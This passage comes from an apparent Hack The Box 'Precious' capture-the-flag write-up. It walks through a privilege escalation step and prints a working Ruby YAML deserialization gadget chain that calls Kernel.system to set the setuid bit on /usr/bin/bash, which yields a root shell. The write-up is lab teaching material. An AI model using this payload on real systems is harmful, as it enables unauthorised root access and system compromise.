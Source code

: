 ![Code execution as root](Assets/HTB-Linux-Easy-Precious/CEwithRootPriv.png)

We just create a file caller **test.txt** for confirm that the code is working. And it works! We can execute command as root. Now, we need a way to get root shell. They are so many ways, but I like this one: I will change permissions on the /usr/bin/bash program to execute it as the owner of the program. The owner of the program is root. So, if we execute the program, we will get a root shell. The code we will use is:

```powershell
---
- !ruby/object:Gem::Installer
	i: x
- !ruby/object:Gem::SpecFetcher
	i: y
- !ruby/object:Gem::Requirement
  requirements:
	!ruby/object:Gem::Package::TarReader
	io: &1 !ruby/object:Net::BufferedIO
	  io: &1 !ruby/object:Gem::Package::TarReader::Entry
		 read: 0
		 header: "abc"
	  debug_output: &1 !ruby/object:Net::WriteAdapter
		 socket: &1 !ruby/object:Gem::RequestSet
			 sets: !ruby/object:Net::WriteAdapter
				 socket: !ruby/module 'Kernel'
				 method_id: :system
			 git_set: chmod +s /usr/bin/bash
		 method_id: :resolve
```
